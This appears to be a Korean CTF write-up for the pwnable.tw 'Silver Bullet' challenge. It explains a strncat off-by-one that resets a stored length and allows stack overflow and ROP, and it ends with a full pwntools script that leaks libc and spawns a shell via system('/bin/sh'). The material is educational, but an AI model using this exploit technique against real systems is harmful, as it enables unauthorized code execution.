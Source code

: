 ```yaml
---
title: "[pwnable.tw]Silver Bullet"
date: 2020-1-26
tags: [pwnable.tw]
categories: [pwnable.tw]
---
```


3개 메뉴로 구성되어있는 바이너리다.

1번 메뉴를 보면 입력받은 걸 s에 저장합니다. 근데 존재하면 그냥 꺼집니다. *(s+12)에는 사이즈를 저장합니다.

```c
int __cdecl create_bullet(char *s)
{
  size_t v2; // ST08_4

  if ( *s )
    return puts("You have been created the Bullet !");
  printf("Give me your description of bullet :");
  read_input(s, 48u);
  v2 = strlen(s);
  printf("Your power is : %u\n", v2);
  *(s + 12) = v2;
  return puts("Good luck !!");
}
```

2번 메뉴에서는 추가로 더 값을 쓸 수 있습니다. 근데 48을 넘길 수는 없습니다. 근데 여기서 strncat이라는 함수를 사용해서 값을 이어붙인다는 점이 있습니다.

```c
int __cdecl power_up(char *dest)
{
  char s; // [esp+0h] [ebp-34h]
  size_t v3; // [esp+30h] [ebp-4h]

  v3 = 0;
  memset(&s, 0, 48u);
  if ( !*dest )
    return puts("You need create the bullet first !");
  if ( *(dest + 12) > 47u )
    return puts("You can't power up any more !");
  printf("Give me your another description of bullet :");
  read_input(&s, 48 - *(dest + 12));
  strncat(dest, &s, 48 - *(dest + 12));
  v3 = strlen(&s) + *(dest + 12);
  printf("Your new power is : %u\n", v3);
  *(dest + 12) = v3;
  return puts("Enjoy it !");
}
```

3번 메뉴인데 특이한점은 *(a1+48) 즉 사이즈만큼 계속 빼주네요 *a2의 초기값은 2147483647입니다.

```c
signed int __cdecl beat(int a1, _DWORD *a2)
{
  signed int result; // eax

  if ( *a1 )
  {
    puts(">----------- Werewolf -----------<");
    printf(" + NAME : %s\n", a2[1]);
    printf(" + HP : %d\n", *a2);
    puts(">--------------------------------<");
    puts("Try to beat it .....");
    usleep(1000000u);
    *a2 -= *(a1 + 48);
    if ( *a2 <= 0 )
    {
      puts("Oh ! You win !!");
      result = 1;
    }
    else
    {
      puts("Sorry ... It still alive !!");
      result = 0;
    }
  }
  else
  {
    puts("You need create the bullet first !");
    result = 0;
  }
  return result;
}
```

strncat에서 off-by-one 취약점이 일어난다. 이 함수를 보면 a와b의 문자열을 합치는데 a뒤의 널바이트를 제거하고 b뒤에 널바이트를 붙인다. 1번 메뉴에서 47개를 입력하고 2번 메뉴에서 1개를 입력하면 널바이트가 추가된다. 48개 뒤에는 *(s+12)위치인데 이 위치에는 사이즈를 저장한다. 여기서 사이즈를 초기화 시킬 수 있다. 그러면 입력을 더 받을 수 있고 ROP가 가능하다. 

puts를 leak해주고 main으로 돌아가려면 3번메뉴에서 main함수에서 return 1을 해줘서 다시 초기 main으로 돌아올 수 있다. 아까 했던거 처럼 똑같이해줘서 리턴을 원하는곳으로 갈 수 있으므로 원샷 날리던지 system함수로 쉘을 띄우면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./silver_bullet')
p = process('./silver_bullet')
p = remote('chall.pwnable.tw',10103)
#libc = e.libc
libc = ELF('./libc_32.so.6')
pebx = 0x08048475 # pop ebx ; ret

p.sendlineafter(':','1')
p.sendafter(':','A'*47)
p.sendlineafter(':','2')
p.sendafter(':','A')

# buf = 0x34 = 52
payload = 'A'*7 # 'A'*47 + A + '\x00' + 'A'*7 = 56
payload += p32(e.plt['puts']) + p32(pebx) + p32(e.got['puts']) # ret
payload += p32(e.symbols['main'])
p.sendlineafter(':','2')
p.sendafter(':',payload)

p.sendlineafter(':','3')
p.sendlineafter(':','3')

puts = u32(p.recvuntil('\xf7')[-4:])
log.info('puts : ' + hex(puts))
libc_base = puts - libc.symbols['puts']
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter(':','1')
p.sendafter(':','A'*47)
p.sendlineafter(':','2')
p.sendafter(':','A')

oneshot=[0x3a819,0x5f065,0x5f066]
payload2 = 'A'*7
#payload2 += p32(libc_base + 0x3a819) #one_shot
payload2 += p32(libc_base + libc.symbols['system']) + p32(pebx) + p32(libc_base + libc.search('/bin/sh\x00').next())
p.sendlineafter(':','2')
p.sendafter(':',payload2)

p.sendlineafter(':','3')
p.sendlineafter(':','3')

p.interactive()
```

